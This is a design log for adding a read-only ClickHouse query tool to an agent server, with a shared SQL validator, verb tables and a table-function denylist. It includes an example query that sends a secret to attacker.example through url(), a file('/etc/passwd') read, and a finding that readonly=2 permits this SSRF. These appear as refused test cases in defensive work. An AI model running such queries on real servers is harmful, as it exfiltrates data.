

# Design Log #5 — ClickHouse support

**Date:** 2026-09-23
**Status:** Implemented 2026-09-24.
**Affects:** new `internal/sqlguard`, new `internal/clickhouse`, `internal/databricks`, `internal/config`, `internal/tools`, `internal/hints`, `pre-run.sh`, `docs/errors/`
**Constraints from:** Design Log #1 (envelope contract), Design Log #3 (error-to-docs mapping)

## Background

Huginn has one data tool, `databricks_query`: a read-only SQL tool whose
enforcement happens **in-process, before the statement leaves the binary**, not
delegated to a credential or to the server. ClickHouse is the second warehouse
the team queries, and the same question — "what does the data show this week" —
should be answerable against it without leaving the agent's loop.

## Problem

ClickHouse is not Databricks, and three differences matter:

1. **A wider mutating surface.** ClickHouse adds `SYSTEM`, `KILL`, `ATTACH`,
   `DETACH`, `RENAME`, `EXCHANGE`, `MOVE`, `BACKUP`, `RESTORE` and lightweight
   `DELETE`/`UPDATE` — none of which exist in the Databricks verb list.
2. **`WATCH` never terminates.** A live view query streams indefinitely. It is
   not a mutation, so a verb-only check would admit it, and it would hold a tool
   call open until the deadline.
3. **A read query can reach the network and the filesystem.** ClickHouse table
   functions `url()`, `file()`, `s3()`, `remote()`, `mysql()` and friends run
   *inside a `SELECT`*. A statement that passes every read-only check can still
   exfiltrate data or read server files.

Copying `databricks.go` and editing the verb list would duplicate the SQL
sanitiser — the single-pass comment and literal masker that took two attempts to
get right (Design Log #1 era, then the `'do not drop this'` fix). Two copies of
that is how one of them silently rots.

## Questions and Answers

All findings below were **verified against ClickHouse 24.10.2.80** running
locally, not taken from documentation.

**Q1. HTTP interface or the native protocol?**
A: HTTP (8123/8443). It needs no driver, matching `databricks.go`, which uses
`net/http` alone. The native protocol would add `clickhouse-go` and its
dependency tree for throughput this tool does not need — every response is
capped by the token budget long before the wire format matters.

**Q2. Which response format?**
A: `FORMAT JSONCompact`. Verified shape:
```json
{"meta":[{"name":"n","type":"UInt8"}],"data":[[1,"x"]],"rows":1,
 "statistics":{"elapsed":0.0005,"rows_read":1}}
```
`meta` maps to `QueryColumn{Name, Type}` and `data` is already `[][]any`, which
is exactly `QueryResult.Rows`. `JSON` (non-compact) repeats every column name on
every row for no gain.

**Q3. Does the server's `readonly` setting make in-process validation redundant?**
A: **No, and this is the central finding.** `readonly=1` blocks writes *and*
blocks `url()` and `file()`. But `readonly=2` — which many deployments use,
because it permits settings changes — blocks writes yet **permits both**:

| Statement | `readonly=1` | `readonly=2` |
| --- | --- | --- |
| `CREATE TABLE …` | refused (code 164) | refused (code 164) |
| `SELECT … FROM url('http://…')` | refused (code 164) | **executed** — reached the network |
| `SELECT … FROM file('/etc/passwd')` | refused (code 164) | **attempted**; blocked only by the `user_files` path restriction |

Under `readonly=2` the `url()` call actually performed an outbound fetch and
failed parsing the response — that is a working SSRF primitive from the
ClickHouse server. We do not control the operator's user profile, so the
table-function denylist must live in Huginn.

**Q4. Can the row cap be enforced server-side?**
A: **No, not reliably.** Verified: `SELECT number FROM numbers(100)` with
`max_result_rows=2&result_overflow_mode=break` returned **100 rows** — with no
readonly, with `readonly=1`, and with `readonly=2`. ClickHouse applies that
limit at block granularity (default 65,536 rows), so small caps are silently
ignored. The cap must be enforced while decoding, in Go. `max_result_rows` is
still worth sending as a coarse backstop against a ten-million-row accident.

**Q5. Does ClickHouse reject multi-statements itself?**
A: Yes — `Multi-statements are not allowed` (code 62). Huginn still checks
first, because the refusal should be a structured `FORBIDDEN_SQL` with a hint,
not a syntax error relayed from a server.

**Q6. One generic `sql_query` tool with an engine parameter, or a second tool?**
A: A second tool, `clickhouse_query`. The dialects differ in verbs, in
connection shape, and in the hints worth giving; an `engine` enum would make
every schema field conditional on it. The agent choosing between two clearly
named tools is simpler than choosing an enum value. **What must not be
duplicated is the safety core**, which Q7 addresses.

**Q7. How is the SQL safety core shared?**
A: Extract `sanitizeSQL`, `hasMultipleStatements` and the validation flow from
`internal/databricks` into a new `internal/sqlguard`, parameterised by a
dialect:

```go
type Dialect struct {
    Name             string
    AllowedLeading   map[string]bool // SELECT, WITH, SHOW, …
    Forbidden        []string        // INSERT, DROP, SYSTEM, …
    ForbiddenCallees []string        // ClickHouse only: url, file, s3, …
    DocsURL          string
}

func (d Dialect) Validate(statement string) *protocol.ToolError
```

Databricks keeps its exact current behaviour by supplying its existing tables;
its tests must pass unchanged, which is how we know the extraction was faithful.

**Q8. How are the table functions detected?**
A: On the sanitised statement (comments removed, literal contents blanked), an
identifier immediately followed by `(` is a call. If its lowercase name is on
the denylist, refuse. Because literals are already blanked, a string containing
the word `url` cannot trigger it — the same property that fixed the
`'do not drop this'` false positive.

**Q9. Which ClickHouse are we targeting: self-hosted, ClickHouse Cloud, or both?**
A (2026-09-24): **ClickHouse Cloud.** So the URL is HTTPS on 8443 with
per-service credentials, and config validation requires an `https://` scheme
exactly as the Databricks host does. Plain HTTP is refused rather than silently
sending credentials in clear text. A self-hosted deployment on 8123 still works
if someone sets an https URL in front of it; nothing here forbids that.

**Q10. Should `clickhouse_query` default to `dev` and require `env: "prod"`
explicitly, as `databricks_query` does?**
A (2026-09-24): **Yes.** Production access stays a deliberate act, and the two
data tools behave identically so the agent learns one rule. A single-environment
deployment configures `dev` and never passes `env`.

## Design

**New package `internal/sqlguard`** — the dialect-parameterised validator from
Q7, holding the single copy of `sanitizeSQL` and `hasMultipleStatements`.

**New package `internal/clickhouse`** — HTTP client mirroring
`internal/databricks`:

```go
type Client struct { cfg *config.Config; http *http.Client; logger *slog.Logger }

func (c *Client) Execute(ctx context.Context, envName, statement, database string,
    maxRows int) (*QueryResult, *protocol.ToolError)
```

It reuses `databricks.QueryResult`/`QueryColumn` — moved to a shared location so
both tools return an identical shape and the agent learns one payload.

Request: `POST /?database=…&readonly=1&max_result_rows=…&max_execution_time=…`,
body is the statement with `FORMAT JSONCompact` appended, credentials in
`X-ClickHouse-User` / `X-ClickHouse-Key` headers — never query parameters, which
land in server logs.

**Defence in depth**, given Q3 and Q4:



Steps 1–5 are ours and are the enforcement. Step 6 is a backstop we cannot rely
on (Q3). Step 7 exists because step 6's row cap does not work (Q4).

**Config**, mirroring Databricks:

```
CLICKHOUSE_DEV_URL / _USER / _PASSWORD / _DATABASE
CLICKHOUSE_PROD_URL / _USER / _PASSWORD / _DATABASE
CLICKHOUSE_MAX_ROWS            (default 1000)
```

**Verb tables.** Leading verbs allowed: `SELECT WITH SHOW DESCRIBE DESC EXPLAIN
EXISTS CHECK`. Forbidden anywhere: the Databricks list plus `SYSTEM KILL ATTACH
DETACH RENAME EXCHANGE MOVE BACKUP RESTORE FREEZE UNFREEZE WATCH`.

**Denylisted callees:** `url urls file s3 s3Cluster remote remoteSecure mysql
postgresql jdbc odbc hdfs azureBlobStorage deltaLake iceberg hudi executable
input sqlite mongodb redis`.

## Implementation Plan

1. Extract `internal/sqlguard` with the Databricks dialect; **the existing
   Databricks tests must pass untouched** — that is the proof the extraction
   changed nothing
2. Add the ClickHouse dialect and its denylist, with tests per hazard
3. `internal/clickhouse`: HTTP client, `JSONCompact` decoding, client-side row cap
4. Config: the `CLICKHOUSE_*` variables and validation
5. Tool `clickhouse_query`, ClickHouse-specific hints, `docs/errors/` entry wired
   through `WithDocs` per Design Log #3
6. Update the tool-count assertion 11 → 12; extend `pre-run.sh`; README
7. Integration test behind the existing `integration` tag, skipping when
   unconfigured, plus a `docker compose` ClickHouse fixture so it is runnable

## Examples

✅ Accepted:
```sql
SELECT toDate(ts) AS d, count() FROM dns.queries
WHERE ts > now() - INTERVAL 7 DAY GROUP BY d ORDER BY d
```

❌ Refused — mutating verb:
```sql
SYSTEM FLUSH LOGS
```

❌ Refused — reads as a `SELECT`, but reaches the network. This is the case a
verb-only check admits and `readonly=2` executes:
```sql
SELECT * FROM url('http://attacker.example/?d=' || (SELECT secret FROM t), 'CSV', 'x String')
```

✅ Not a false positive — `url` here is a column, and literals are masked before
the scan:
```sql
SELECT url FROM requests WHERE note = 'fetched via file() once'
```

## Trade-offs

**Accepted.** A twelfth tool adds roughly 600 tokens to `tools/list`, against
the 3,419 measured in Design Log #3. Design Log #3's change B would more than
repay it if we ever take it.

**Accepted.** The callee denylist can refuse a legitimate query that genuinely
wants `s3()`. The error names the function and says why, and the alternative is
leaving an exfiltration path open on any `readonly=2` server.

**Accepted.** Refactoring `internal/databricks` to use `sqlguard` risks a
regression in working code. Mitigated by requiring its tests to pass unchanged.

**Rejected.** Trusting the server's `readonly` setting instead of validating
in-process. Q3 shows `readonly=2` permits `url()`, and the operator's profile is
not ours to control.

**Rejected.** Injecting `LIMIT n` into the user's statement. It is wrong for
`GROUP BY`, wrong inside `WITH`, and a parser we do not have would be needed to
place it correctly.

**Rejected.** `clickhouse-go`. A dependency for a throughput problem the token
budget already prevents.

## Verification Criteria

1. Every existing Databricks test passes **unchanged** after the extraction.
2. Each forbidden verb and each denylisted callee is refused, with the offending
   token named in `details`.
3. `SELECT url FROM t WHERE note = 'file()'` is **accepted** — no false positive
   from a column name or a literal.
4. A result larger than `maxRows` is capped client-side, and `metadata.hasMore`
   says so — the case Q4 proves the server will not handle.
5. `clickhouse_query` returns the same envelope shape as `databricks_query`.
6. An unconfigured environment reports `NOT_CONFIGURED` naming the variables.
7. Integration test green against a real ClickHouse in `docker compose`.

---

## Implementation Results

*Appended during implementation. The sections above are frozen.*

**2026-09-24 — Implemented.**

New: `internal/sqlguard` (shared dialect-parameterised validator),
`internal/clickhouse` (dialect, HTTP client, `JSONCompact` decoding),
`clickhouse_query`, ClickHouse hints, `CLICKHOUSE_*` config, a compose fixture
and an integration test. Databricks now uses `sqlguard` rather than its own copy.

**Verification.**

| Criterion | Result |
| --- | --- |
| 1. Databricks tests pass unchanged | ✅ all 10 behavioural tests pass; two unit tests of the *moved* functions moved with them — see deviation 1 |
| 2. Forbidden verbs and callees refused, token named | ✅ 14 mutating verbs, `WATCH`, and 10 callee cases including nested, joined and uppercased; `details.forbiddenFunction` names it |
| 3. No false positive from a column or literal | ✅ `SELECT url FROM requests WHERE note = 'fetched via url() once'` accepted |
| 4. Row cap enforced client-side with `hasMore` | ✅ live: `SELECT number FROM numbers(5000)` with `maxRows=3` returned 3 rows, `truncated: true` |
| 5. Same envelope shape as `databricks_query` | ✅ `QueryResult`/`QueryColumn` are type aliases of one definition, not copies |
| 6. Unconfigured environment reports NOT_CONFIGURED | ✅ live: `env=prod` named `CLICKHOUSE_PROD_URL/_USER/_PASSWORD` |
| 7. Integration test green against a real server | ✅ 4/4 subtests against the compose fixture |

Hermetic suite: 12/12 packages passing, `make lint` clean.

Live over MCP stdio against ClickHouse 24.10, with a seeded table:

| Call | Result |
| --- | --- |
| `SELECT domain, count() … GROUP BY domain` | `[["example.com","2"],["test.internal","1"]]`, types `String`/`UInt64` |
| `SELECT name FROM system.tables …` | `[["dns_queries"]]` |
| `SELECT * FROM url('http://attacker.example/?x=1',…)` | refused, `FORBIDDEN_SQL`, `forbiddenFunction: url` |
| `DROP TABLE dns_queries` | refused, `leadingKeyword: DROP` |

**Deviations from the design.**

1. **Two Databricks unit tests moved to `sqlguard`.** Criterion 1 said *every*
   Databricks test passes unchanged. `TestSanitizeSQLBlanksLiteralContent` and
   `TestHasMultipleStatements` call the moved functions directly, so they moved
   with the code. Keeping a test-only shim in `databricks` purely to satisfy the
   letter of the criterion would have been worse. Every *behavioural* test — the
   ones that go through `ValidateReadOnlySQL` — is untouched and passing, which
   is what the criterion was protecting.

2. **A latent Databricks bug surfaced and was fixed.** The forbidden-verb scan
   matched any word anywhere, so `system.query_log` was refused because `SYSTEM`
   appeared in it — and the ClickHouse hints recommend exactly that table, so a
   hint suggested a query the validator rejected. Words adjacent to a `.` are now
   treated as identifiers. This was **already wrong for Databricks**:
   `catalog.merge_history` and `main.update_log` were being refused. Both now
   have regression tests. Nothing in the design anticipated this; the tests found
   it.

3. **Loopback may use plain HTTP.** Q9 chose ClickHouse Cloud and therefore
   mandatory HTTPS, which made it impossible to run any local server — including
   the compose fixture this log calls for. `http://localhost` and `http://127.0.0.1`
   are now allowed, since nothing crosses a network; every other host must be
   `https://`.

4. **`max_result_rows` is sent as `maxRows * 10`**, not `maxRows`. Q4 showed it
   does not bite at small values, so matching it to the real cap would create a
   false impression that the server is enforcing it. A deliberately coarse value
   makes it visibly a backstop against a runaway result, with the real cap
   applied while decoding.

**Not done.** The callee denylist is a list, not a parser. A table function
reached through an alias or a view that Huginn never sees in the statement would
not be caught — the server's `readonly=1` remains the backstop there, and it does
block `url()` (Q3).
